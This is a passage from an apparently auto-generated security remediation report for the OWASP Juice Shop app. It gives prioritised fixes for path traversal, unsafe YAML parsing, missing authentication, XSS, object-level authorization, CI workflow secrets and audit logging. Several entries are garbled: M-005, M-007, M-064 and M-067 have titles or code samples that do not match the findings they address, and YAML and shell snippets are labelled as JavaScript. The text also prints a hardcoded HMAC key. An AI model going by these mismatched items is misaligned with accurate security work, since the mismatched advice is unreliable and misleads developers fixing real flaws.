      contents: read
      packages: write
    ...
```

**Reference:** CWE-732

---

<a id="m-060"></a>
#### M-060 — Constrain file paths to a safe base directory

**Addresses:**

- 🟠 [F-073](#f-073) — ZIP Path Traversal (`routes/fileUpload.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:44`

**How:** Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` at `routes/fileUpload.ts:44`. Sanitize `fileName` with `path.basename(entry.path)` to strip all directory components before constructing the destination path, preventing traversal entirely. Consider validating the unzipped content with an allowlist of permitted file extensions before writing to disk.

1. Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` at `routes/fileUpload.ts:44`.
2. Sanitize `fileName` with `path.basename(entry.path)` to strip all directory components before constructing the destination path, preventing traversal entirely.
3. Consider validating the unzipped content with an allowlist of permitted file extensions before writing to disk.

```javascript
const safeBase = path.resolve('uploads/complaints') + path.sep
const fileName = path.basename(entry.path) // strip any directory component
const absolutePath = path.resolve('uploads/complaints/' + fileName)
if (absolutePath.startsWith(safeBase)) {
  entry.pipe(fs.createWriteStream(absolutePath))
} else {
  entry.autodrain()
}
```

**Reference:** CWE-22

---

<a id="m-061"></a>
#### M-061 — Add JWT authentication middleware to the /file-upload route before all upload handler middleware

**Addresses:**

- 🔴 [F-074](#f-074) — Missing Authentication on `/file-upload` Endpoint (`server.ts:309`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:309`

**How:** Prepend `security.isAuthorized()` (or the equivalent express-jwt middleware used elsewhere in the app) to the `/file-upload` route middleware chain in `server.ts`. Verify the authentication check is performed before `uploadToMemory.single('file')` to avoid processing the multipart body for unauthenticated requests.

1. Prepend `security.isAuthorized()` (or the equivalent express-jwt middleware used elsewhere in the app) to the `/file-upload` route middleware chain in `server.ts`.
2. Verify the authentication check is performed before `uploadToMemory.single('file')` to avoid processing the multipart body for unauthenticated requests.

```javascript
// In server.ts, replace line 309 with:
app.post('/file-upload',
  security.isAuthorized(),           // authenticate first
  uploadToMemory.single('file'),     // then buffer the file
  ensureFileIsPassed,
  metrics.observeFileUploadMetricsMiddleware(),
  checkUploadSize, checkFileType,
  handleZipFileUpload, handleXmlUpload, handleYamlUpload
)
```

**Reference:** CWE-306

---

<a id="m-062"></a>
#### M-062 — Replace `yaml.load` with yaml.safeLoad or a schema-restricted YAML parser

**Addresses:**

- 🔴 [F-075](#f-075) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:117`

**How:** Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.JSON_SCHEMA })` which restricts parsing to JSON-compatible types and disables JS-specific tags including `!!js/function`. Alternatively use `yaml.safeLoad(data)` (js-yaml 3.x) or validate against a strict Zod/Joi schema after parsing to reject unexpected types. Add an upload size pre-check that rejects files above a configured threshold (e.g., 50KB for YAML) before passing to the parser, to limit YAML bomb amplification potential.

1. Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.JSON_SCHEMA })` which restricts parsing to JSON-compatible types and disables JS-specific tags including `!!js/function`.
2. Alternatively use `yaml.safeLoad(data)` (js-yaml 3.x) or validate against a strict Zod/Joi schema after parsing to reject unexpected types.
3. Add an upload size pre-check that rejects files above a configured threshold (e.g., 50KB for YAML) before passing to the parser, to limit YAML bomb amplification potential.

```javascript
// Restrict to JSON-compatible YAML types only
const yamlString = vm.runInContext(
  'JSON.stringify(yaml.load(data, { schema: yaml.JSON_SCHEMA }))',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-502

---

<a id="m-063"></a>
#### M-063 — Add server-side authorization middleware to all admin and accounting API routes

**Addresses:**

- 🟠 [F-076](#f-076) — Client-Side Enforcement of Server-Side Security (`app.guard.ts:52`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:52`

**How:** Add Express middleware on all `/rest/admin/*` and `/api/Users/:id` (DELETE/PUT) routes that verifies the decoded JWT role server-side: `if (decoded.data.role !== 'admin') return res.status(403).json({error: 'Forbidden'})`. Use a centralized `requireRole('admin')` middleware rather than per-route checks to avoid omission drift. Remove the client-side JWT role assertion from `AdminGuard` as the sole authorization gate; keep the guard only for UX (hiding admin nav), not security. Fix the backend's `express-jwt` configuration to reject `alg:none` tokens (pin `algorithms: ['RS256']`).

1. Add Express middleware on all `/rest/admin/*` and `/api/Users/:id` (DELETE/PUT) routes that verifies the decoded JWT role server-side: `if (decoded.data.role !== 'admin') return res.status(403).json({error: 'Forbidden'})`.
2. Use a centralized `requireRole('admin')` middleware rather than per-route checks to avoid omission drift.
3. Remove the client-side JWT role assertion from `AdminGuard` as the sole authorization gate; keep the guard only for UX (hiding admin nav), not security.
4. Fix the backend's `express-jwt` configuration to reject `alg:none` tokens (pin `algorithms: ['RS256']`).

```javascript
// Express middleware: routes/admin.ts
const requireAdmin = (req, res, next) => {
  if (!req.user || req.user.data.role !== 'admin') {
    return res.status(403).json({ error: 'Forbidden' });
  }
  next();
};
router.use('/rest/admin', expressjwt({ secret: publicKey, algorithms: ['RS256'] }), requireAdmin);
```

**Reference:** CWE-602

---

### P3 — Next Quarter

<a id="m-005"></a>
#### M-005 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-083](#f-083) — Improper Verification of Cryptographic Signature (`release.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/release.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-006"></a>
#### M-006 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-084](#f-084) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

---

<a id="m-007"></a>
#### M-007 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-086](#f-086) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/dependabot.yml:0`

**How:** Add npm ecosystem entry to .`github/dependabot.yml` - npm ecosystem must be tracked for timely dependency security updates.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-010"></a>
#### M-010 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-001](#f-001) — Insecure Storage of Sensitive Information (`last-login-ip.component.ts:34`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:34`

**How:** Implement a Backend-for-Frontend (BFF) session endpoint: after login, the Express backend sets `Set-Cookie: token=<JWT>; HttpOnly; Secure; SameSite=Strict` and the SPA never receives the token directly. Remove all `localStorage.setItem('token', ...)` and `localStorage.getItem('token')` calls from the frontend. Add a `Content-Security-Policy` header via Express `helmet.contentSecurityPolicy({ directives: { scriptSrc: ["'self'"] } })` to limit XSS exfiltration paths. Remove `localStorage.getItem('token')` from route guards; guards should instead call an authenticated `/api/me` endpoint to verify session state.

1. Implement a Backend-for-Frontend (BFF) session endpoint: after login, the Express backend sets `Set-Cookie: token=<JWT>; HttpOnly; Secure; SameSite=Strict` and the SPA never receives the token directly.
2. Remove all `localStorage.setItem('token', ...)` and `localStorage.getItem('token')` calls from the frontend.
3. Add a `Content-Security-Policy` header via Express `helmet.contentSecurityPolicy({ directives: { scriptSrc: ["'self'"] } })` to limit XSS exfiltration paths.
4. Remove `localStorage.getItem('token')` from route guards; guards should instead call an authenticated `/api/me` endpoint to verify session state.

```javascript
// Express: set HttpOnly cookie after auth
res.cookie('token', jwt, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  maxAge: 8 * 60 * 60 * 1000  // 8 hours
});
// Angular guard: check session via API, not localStorage
return this.http.get('/api/me').pipe(
  map(() => true),
  catchError(() => { this.router.navigate(['/login']); return of(false); })
);
```

**Reference:** CWE-922

---

<a id="m-026"></a>
#### M-026 — Harden the authentication flow

**Addresses:**

- 🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation (`app.routing.ts:262`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/app.routing.ts:262`

**How:** Migrate from implicit flow (`response_type=token`) to authorization code flow with PKCE (`response_type=code&code_challenge=...`) using Angular's standard OAuth library such as `angular-oauth2-oidc`. Generate a cryptographically random `state` parameter before initiating the OAuth redirect, store it in `sessionStorage`, and verify it matches the value returned in the callback before consuming the `access_token`. Remove `oauthMatcher` and `OAuthComponent`'s direct fragment parsing; let the OAuth library handle the callback securely. Set the `redirect_uri` in Google Cloud Console to the exact SPA callback URL and validate it exact-match server-side.

1. Migrate from implicit flow (`response_type=token`) to authorization code flow with PKCE (`response_type=code&code_challenge=...`) using Angular's standard OAuth library such as `angular-oauth2-oidc`.
2. Generate a cryptographically random `state` parameter before initiating the OAuth redirect, store it in `sessionStorage`, and verify it matches the value returned in the callback before consuming the `access_token`.
3. Remove `oauthMatcher` and `OAuthComponent`'s direct fragment parsing; let the OAuth library handle the callback securely.
4. Set the `redirect_uri` in Google Cloud Console to the exact SPA callback URL and validate it exact-match server-side.

```javascript
// Using angular-oauth2-oidc
import { OAuthService } from 'angular-oauth2-oidc';
// In AuthService.initiateLogin():
const state = crypto.randomUUID();
sessionStorage.setItem('oauth_state', state);
this.oauthService.initCodeFlow(state);  // PKCE + state generated
// In callback handler:
const returnedState = params.get('state');
if (returnedState !== sessionStorage.getItem('oauth_state')) throw new Error('State mismatch');
```

**Reference:** CWE-287

---

<a id="m-028"></a>
#### M-028 — Replace security-question reset with time-limited emailed token and remove hardcoded HMAC key

**Addresses:**

- 🟠 [F-035](#f-035) — Weak Password Recovery Mechanism (`routes/resetPassword.ts:41`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `routes/resetPassword.ts:41`

**How:** Deprecate the security-question reset flow. Implement a one-time reset token (`crypto.randomBytes(32)`.`toString('hex')`) sent to the registered email address, valid for 15 minutes. If security questions must remain, load the HMAC key from an environment variable (not hardcoded). Rotate immediately since '`pa4qacea4VK9t9nGv7yZtwmj`' is compromised. Fix rate limiting: change the `keyGenerator` to use `req.ip` (set by Express when trust proxy is correctly configured) rather than `req.headers`['X-Forwarded-For']. Reduce rate limit from 100 to 5 per 15 minutes per IP for this endpoint.

1. Deprecate the security-question reset flow. Implement a one-time reset token (`crypto.randomBytes(32)`.`toString('hex')`) sent to the registered email address, valid for 15 minutes.
2. If security questions must remain, load the HMAC key from an environment variable (not hardcoded). Rotate immediately since '`pa4qacea4VK9t9nGv7yZtwmj`' is compromised.
3. Fix rate limiting: change the `keyGenerator` to use `req.ip` (set by Express when trust proxy is correctly configured) rather than `req.headers`['X-Forwarded-For'].
4. Reduce rate limit from 100 to 5 per 15 minutes per IP for this endpoint.

```javascript
// server.ts — rate limit keyed on actual IP
app.use('/rest/user/reset-password', rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 5,
  // Do not use X-Forwarded-For header — use req.ip set by Express trust proxy
}))
```

**Reference:** CWE-640

---

<a id="m-059"></a>
#### M-059 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-072](#f-072) — Insecure Direct Object Reference (`models/relations.ts:22`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `models/relations.ts:22`

**How:** For each user-owned model (`Card`, `Address`, `Wallet`, `Memory`, `Recycle`, `Complaint`, `PrivacyRequest`), add a Sequelize `beforeFind` hook that injects `where.UserId = req.userId` when a `userId` is set in the query options context. Alternatively, create a shared `withOwnership(userId: number)` query-scope helper that wraps all `findOne`/`findByPk` calls with an additional `AND UserId = :userId` constraint; enforce its use via a linting rule. Audit all route handlers using these models to confirm each read/write call includes `where: { id: ..., UserId: req.user.data.id }` rather than `where: { id: ... }` alone. Add integration tests asserting that a request from user A cannot retrieve or modify resources belonging to user B, covering all five model types.

1. For each user-owned model (`Card`, `Address`, `Wallet`, `Memory`, `Recycle`, `Complaint`, `PrivacyRequest`), add a Sequelize `beforeFind` hook that injects `where.UserId = req.userId` when a `userId` is set in the query options context.
2. Alternatively, create a shared `withOwnership(userId: number)` query-scope helper that wraps all `findOne`/`findByPk` calls with an additional `AND UserId = :userId` constraint; enforce its use via a linting rule.
3. Audit all route handlers using these models to confirm each read/write call includes `where: { id: ..., UserId: req.user.data.id }` rather than `where: { id: ... }` alone.
4. Add integration tests asserting that a request from user A cannot retrieve or modify resources belonging to user B, covering all five model types.

```javascript
// Correct route handler pattern — always include UserId
const card = await CardModel.findOne({
  where: { id: req.params.id, UserId: req.user.data.id }
})
if (!card) return res.status(404).json({ error: 'Not found' })
```

**Reference:** CWE-639

---

<a id="m-064"></a>
#### M-064 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-077](#f-077) — Archived Action with Mutable Tag in Release Workflow (`release.yml:66`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/release.yml:66`

**How:** Replace the `dawidd6/action-get-tag` step entirely with a native shell command: `run: echo "TAG_NAME=${GITHUB_REF#refs/tags/}" >> $GITHUB_ENV` - this eliminates the third-party dependency. If a dedicated action is needed, use a maintained alternative such as `ncipollo/release-action` or the built-in `github.ref_name` context variable, which is available on tag-push events without any action. Short-term, upgrade the short SHA `727a6f0` to the full 40-character SHA to remove the prefix-collision risk.

1. Replace the `dawidd6/action-get-tag` step entirely with a native shell command: `run: echo "TAG_NAME=${GITHUB_REF#refs/tags/}" >> $GITHUB_ENV` - this eliminates the third-party dependency.
2. If a dedicated action is needed, use a maintained alternative such as `ncipollo/release-action` or the built-in `github.ref_name` context variable, which is available on tag-push events without any action.
3. Short-term, upgrade the short SHA `727a6f0` to the full 40-character SHA to remove the prefix-collision risk.

```javascript
# release.yml — replace the archived action
- name: "Get tag name"
  id: tag
  run: echo "tag=${GITHUB_REF#refs/tags/}" >> $GITHUB_OUTPUT
```

**Reference:** CWE-1104

---

<a id="m-065"></a>
#### M-065 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-078](#f-078) — DOM-based XSS (`index.ts:126`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/hacking-instructor/index.ts:126`

**How:** Pipe the `snarkdown()` output through `DOMPurify.sanitize()` before assigning to `innerHTML`: `textBox.innerHTML = DOMPurify.sanitize(snarkdown(hint.text))`. Add `dompurify` as a dependency: `npm install dompurify @types/dompurify`. Alternatively, use Angular's `DomSanitizer.sanitize(SecurityContext.HTML, snarkdown(hint.text))` if the hacking instructor is refactored into an Angular component.

1. Pipe the `snarkdown()` output through `DOMPurify.sanitize()` before assigning to `innerHTML`: `textBox.innerHTML = DOMPurify.sanitize(snarkdown(hint.text))`.
2. Add `dompurify` as a dependency: `npm install dompurify @types/dompurify`.
3. Alternatively, use Angular's `DomSanitizer.sanitize(SecurityContext.HTML, snarkdown(hint.text))` if the hacking instructor is refactored into an Angular component.

```javascript
import DOMPurify from 'dompurify';
// hacking-instructor/index.ts:126
textBox.innerHTML = DOMPurify.sanitize(snarkdown(hint.text))
```

**Reference:** CWE-79

---

<a id="m-066"></a>
#### M-066 — Add security audit logging

**Addresses:**

- 🟡 [F-079](#f-079) — Missing Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:24`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:24`

**How:** Before `res.json(...)` on the success path, emit a structured JSON log entry with fields: `event: 'b2b_order_submitted'`, `actor: req.user?.email`, `cid: body.cid`, `orderNo`, `orderLinesDataHash: crypto.createHash('sha256').update(orderLinesData).digest('hex')`, `timestamp: new Date().toISOString()`. On the sandbox error path (line 33), log `event: 'b2b_order_sandbox_error'` with the same actor and `errorMessage: utils.getErrorMessage(err)` - do not log the raw error object (avoids stack trace leakage) but do record that a sandbox exception occurred for this identity. Route logs to an append-only sink (CloudWatch Logs, Splunk, or a WORM-compliant log destination) to meet PCI-DSS requirement 10.5.

1. Before `res.json(...)` on the success path, emit a structured JSON log entry with fields: `event: 'b2b_order_submitted'`, `actor: req.user?.email`, `cid: body.cid`, `orderNo`, `orderLinesDataHash: crypto.createHash('sha256').update(orderLinesData).digest('hex')`, `timestamp: new Date().toISOString()`.
2. On the sandbox error path (line 33), log `event: 'b2b_order_sandbox_error'` with the same actor and `errorMessage: utils.getErrorMessage(err)` - do not log the raw error object (avoids stack trace leakage) but do record that a sandbox exception occurred for this identity.
3. Route logs to an append-only sink (CloudWatch Logs, Splunk, or a WORM-compliant log destination) to meet PCI-DSS requirement 10.5.

```javascript
// In b2bOrder handler, success path:
const orderNo = uniqueOrderNumber()
console.log(JSON.stringify({
  event: 'b2b_order_submitted',
  actor: (req as any).user?.email ?? 'unknown',
  cid: body.cid,
  orderNo,
  orderLinesDataHash: require('crypto')
    .createHash('sha256').update(orderLinesData).digest('hex'),
  timestamp: new Date().toISOString()
}))
res.json({ cid: body.cid, orderNo, paymentDue: dateTwoWeeksFromNow() })
```

**Reference:** CWE-778

---

<a id="m-067"></a>
#### M-067 — Verify token signatures before trusting claims

**Addresses:**

- 🟡 [F-080](#f-080) — Released Docker Images Lack SLSA Provenance Attestation (`release.yml:50`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/release.yml:50`

**How:** Add `sigstore/cosign-installer` to the release workflow and sign the produced image with `cosign sign --key env://COSIGN_KEY bkimminich/juice-shop:<tag>` after the push step. Use `docker/build-push-action` with `provenance: true` and `sbom: true` flags (supported since v4) to generate and attach SLSA provenance metadata to the image manifest. Publish the cosign public key or Rekor transparency-log entry URL in the `SECURITY.md` so downstream users can verify: `cosign verify --key cosign.pub bkimminich/juice-shop:<tag>`. Add `permissions: id-token: write` to the docker job in `release.yml` to enable keyless SLSA provenance using the GitHub OIDC token.

1. Add `sigstore/cosign-installer` to the release workflow and sign the produced image with `cosign sign --key env://COSIGN_KEY bkimminich/juice-shop:<tag>` after the push step.
2. Use `docker/build-push-action` with `provenance: true` and `sbom: true` flags (supported since v4) to generate and attach SLSA provenance metadata to the image manifest.
3. Publish the cosign public key or Rekor transparency-log entry URL in the `SECURITY.md` so downstream users can verify: `cosign verify --key cosign.pub bkimminich/juice-shop:<tag>`.
4. Add `permissions: id-token: write` to the docker job in `release.yml` to enable keyless SLSA provenance using the GitHub OIDC token.

```javascript
# release.yml — after docker/build-push-action
- name: "Sign image with cosign (keyless via OIDC)"
  uses: sigstore/cosign-installer@main
- name: "Sign"
  run: |
    cosign sign --yes \
      bkimminich/juice-shop:${{ steps.tag.outputs.tag }}
```

**Reference:** CWE-345

---

<a id="m-068"></a>
#### M-068 — Add security audit logging

**Addresses:**

- 🟡 [F-081](#f-081) — No audit log table for security-relevant mutations (`models/index.ts:30`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/index.ts:30`

**How:** Create `models/auditLog.ts` with fields: `id`, `actorId` (UserId FK), `action` (enum: role_change, password_reset, card_add, address_modify, wallet_credit, privacy_request), `targetId`, `targetModel`, `before`, `after` (JSON), `ipAddress`, `createdAt`. Add Sequelize `afterCreate` / `afterUpdate` hooks in `models/user.ts`, `models/card.ts`, `models/wallet.ts`, and `models/address.ts` that write immutable AuditLog rows. Mark the `AuditLog` table with no `deletedAt` (disable paranoid mode) and revoke DELETE privileges on the table at the SQLite level (via an `init` pragma). Ship audit log rows to an append-only external sink (e.g., a write-only S3 bucket or a dedicated log service) so that DB-level compromise does not erase the audit trail.

1. Create `models/auditLog.ts` with fields: `id`, `actorId` (UserId FK), `action` (enum: role_change, password_reset, card_add, address_modify, wallet_credit, privacy_request), `targetId`, `targetModel`, `before`, `after` (JSON), `ipAddress`, `createdAt`.
2. Add Sequelize `afterCreate` / `afterUpdate` hooks in `models/user.ts`, `models/card.ts`, `models/wallet.ts`, and `models/address.ts` that write immutable AuditLog rows.
3. Mark the `AuditLog` table with no `deletedAt` (disable paranoid mode) and revoke DELETE privileges on the table at the SQLite level (via an `init` pragma).
4. Ship audit log rows to an append-only external sink (e.g., a write-only S3 bucket or a dedicated log service) so that DB-level compromise does not erase the audit trail.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-069"></a>
#### M-069 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-082](#f-082) — Raw VM Error Propagation to API Response (`routes/b2bOrder.ts:33`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:33`

**How:** Replace `next(err)` at line 33 with `next(new Error('Invalid order expression'))` - wrapping in a generic message prevents internal detail leakage while preserving the HTTP 500 path. Log the original `err` server-side (with full stack) at `warn` level for debugging, before passing the sanitized error to `next()`. Configure the global Express error handler to strip `err.stack` from HTTP responses in production (check `process.env.NODE_ENV !== 'development'`).

1. Replace `next(err)` at line 33 with `next(new Error('Invalid order expression'))` - wrapping in a generic message prevents internal detail leakage while preserving the HTTP 500 path.
2. Log the original `err` server-side (with full stack) at `warn` level for debugging, before passing the sanitized error to `next()`.
3. Configure the global Express error handler to strip `err.stack` from HTTP responses in production (check `process.env.NODE_ENV !== 'development'`).

```javascript
} else {
  // Log internally for debugging; never expose sandbox internals to callers
  console.warn('b2b sandbox error', utils.getErrorMessage(err))
  challengeUtils.solveIf(challenges.rceChallenge,
    () => utils.getErrorMessage(err) === 'Infinite loop detected - reached max iterations')
  next(new Error('Invalid order expression'))
}
```

**Reference:** CWE-209

---

<a id="m-070"></a>
#### M-070 — Isolate high-privilege secrets to dedicated minimal workflows triggered by workflow_run events

**Addresses:**

- 🟡 [F-085](#f-085) — Long-Lived Administrative Secret in Workflow Environment (`pr-compliance.yml:438`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/pr-compliance.yml:438`

**How:** Move the `Block Spammer` step into a separate workflow file that runs only after the compliance workflow completes successfully (using `workflow_run` trigger), so `ORG_ADMIN_TOKEN` is never loaded in the same runner that processes external PR data. Rotate `ORG_ADMIN_TOKEN` to a fine-grained personal access token with only `Block users` scope (GitHub fine-grained PATs support this) rather than a broad org-admin token. Add `GITHUB_TOKEN` scope restriction to the job containing `ORG_ADMIN_TOKEN`: add `permissions: contents: none` to prevent GITHUB_TOKEN from being combined with the admin token in the same job. Audit all workflow files for co-presence of `secrets.*` references and external-input processing steps - enforce via `actionlint` or a custom required check.

1. Move the `Block Spammer` step into a separate workflow file that runs only after the compliance workflow completes successfully (using `workflow_run` trigger), so `ORG_ADMIN_TOKEN` is never loaded in the same runner that processes external PR data.
2. Rotate `ORG_ADMIN_TOKEN` to a fine-grained personal access token with only `Block users` scope (GitHub fine-grained PATs support this) rather than a broad org-admin token.
3. Add `GITHUB_TOKEN` scope restriction to the job containing `ORG_ADMIN_TOKEN`: add `permissions: contents: none` to prevent GITHUB_TOKEN from being combined with the admin token in the same job.
4. Audit all workflow files for co-presence of `secrets.*` references and external-input processing steps - enforce via `actionlint` or a custom required check.

**Reference:** CWE-532

---

<a id="m-071"></a>
#### M-071 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟡 [F-087](#f-087) — No query timeout in Sequelize SQLite configuration (`models/index.ts:30`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `models/index.ts:30`

**How:** Set `dialectOptions: { timeout: 5000 }` in the Sequelize constructor options at `models/index.ts:30` - this passes `PRAGMA busy_timeout=5000` to SQLite, aborting queries that wait more than 5 seconds for the write lock. Add `pool: { acquire: 5000, idle: 10000 }` to the Sequelize options to cap connection acquisition wait time. For the intentional SQLi route (`routes/login.ts:34`), consider wrapping the raw query in a Promise with a `setTimeout` circuit-breaker as an additional defense layer.

1. Set `dialectOptions: { timeout: 5000 }` in the Sequelize constructor options at `models/index.ts:30` - this passes `PRAGMA busy_timeout=5000` to SQLite, aborting queries that wait more than 5 seconds for the write lock.
2. Add `pool: { acquire: 5000, idle: 10000 }` to the Sequelize options to cap connection acquisition wait time.
3. For the intentional SQLi route (`routes/login.ts:34`), consider wrapping the raw query in a Promise with a `setTimeout` circuit-breaker as an additional defense layer.

```javascript
// models/index.ts — add timeout
const sequelize = new Sequelize('database', 'username', 'password', {
  dialect: 'sqlite',
  dialectOptions: { timeout: 5000 },
  pool: { acquire: 5000, idle: 10000 },
  storage: 'data/juiceshop.sqlite',
  logging: false
})
```

**Reference:** CWE-400

---

<a id="m-072"></a>
#### M-072 — Move data export rate limiting to server-side middleware; remove client-side localStorage gate

**Addresses:**

- 🟡 [F-088](#f-088) — Client-Side Data Export Rate Limit Bypass (`data-export.component.ts:48`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/data-export/data-export.component.ts:48`

**How:** Implement server-side rate limiting on the data export endpoint using `express-rate-limit`: allow at most 1 export per 5 minutes per authenticated user, tracked by user ID in server memory or Redis. Remove the `lstdtxprt` `localStorage` check from the frontend entirely; the frontend should simply call the endpoint and display the error if rate-limited (HTTP 429). Replace `window.open().document.write(this.userData)` with a proper file download: `const blob = new Blob([userData], {type: 'application/json'}); saveAs(blob, 'data-export.json')` to avoid the popup XSS risk.

1. Implement server-side rate limiting on the data export endpoint using `express-rate-limit`: allow at most 1 export per 5 minutes per authenticated user, tracked by user ID in server memory or Redis.
2. Remove the `lstdtxprt` `localStorage` check from the frontend entirely; the frontend should simply call the endpoint and display the error if rate-limited (HTTP 429).
3. Replace `window.open().document.write(this.userData)` with a proper file download: `const blob = new Blob([userData], {type: 'application/json'}); saveAs(blob, 'data-export.json')` to avoid the popup XSS risk.

```javascript
// Express: rate limit data export
const exportLimiter = rateLimit({ windowMs: 5*60*1000, max: 1, keyGenerator: (req) => req.user.data.id });
router.post('/dataerasure/dataExport', expressjwt({...}), exportLimiter, dataExportHandler);
```

**Reference:** CWE-400

---

<a id="m-073"></a>
#### M-073 — Restrict pull_request_target permissions and isolate ORG_ADMIN_TOKEN to a separate minimal workflow

**Addresses:**

- 🟡 [F-089](#f-089) — Improper Access Control (`pr-compliance.yml:4`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/pr-compliance.yml:4`

**How:** Move the `Block Spammer` step (which needs `ORG_ADMIN_TOKEN`) to a separate workflow that runs only after the compliance check completes, triggered by a `workflow_run` event with a condition on the spam score output - this isolates the admin token from the PR data processing context. Add `permissions: pull-requests: write, issues: write, contents: none` explicitly (removing `read-all` default) so the token cannot be escalated to repository write operations. Validate that `JSON.parse(process.env.PR_JSON)` cannot be bypassed by testing with PR titles/bodies containing `}`, `"`, and control characters - the JSON is produced by `core.setOutput` which should handle encoding, but this should be confirmed. Consider replacing `pull_request_target` with `pull_request` for the compliance checks that don't need write permissions; only the comment-posting step needs elevated access and can be triggered via a second workflow.

1. Move the `Block Spammer` step (which needs `ORG_ADMIN_TOKEN`) to a separate workflow that runs only after the compliance check completes, triggered by a `workflow_run` event with a condition on the spam score output - this isolates the admin token from the PR data processing context.
2. Add `permissions: pull-requests: write, issues: write, contents: none` explicitly (removing `read-all` default) so the token cannot be escalated to repository write operations.
3. Validate that `JSON.parse(process.env.PR_JSON)` cannot be bypassed by testing with PR titles/bodies containing `}`, `"`, and control characters - the JSON is produced by `core.setOutput` which should handle encoding, but this should be confirmed.
4. Consider replacing `pull_request_target` with `pull_request` for the compliance checks that don't need write permissions; only the comment-posting step needs elevated access and can be triggered via a second workflow.

```typescript
// Centralize access decisions in a single middleware.
function requireRole(role: 'admin' | 'user') {
  return (req, res, next) =>
    req.user?.role === role ? next() : res.status(403).end()
}
```

**Verification:** Cross-check every `/api/*` route for an explicit `requireRole(...)` call; gaps fail CI.

**Reference:** CWE-284

---

### P4 — Backlog

<a id="m-008"></a>
#### M-008 — Add a container healthcheck

**Addresses:**

- 🟢 [F-091](#f-091) — Missing HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

<a id="m-009"></a>
#### M-009 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-092](#f-092) — No Renovate config detected on absent (`renovate.json`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `renovate.json:0`

**How:** Add `renovate.json` with a baseline preset (extends: ["config:base"]) OR confirm Renovate hosted-app is enabled at the repo / org level. - Renovate is a first-class peer of Dependabot for automated dependency updates. File-mode detection is best-effort; hosted-app mode is not detectable from the repo.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-074"></a>
#### M-074 — Add security audit logging

**Addresses:**

- 🟢 [F-090](#f-090) — No Actor Attribution on Socket Event Handlers (`registerWebsocketEvents.ts:34`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:34`
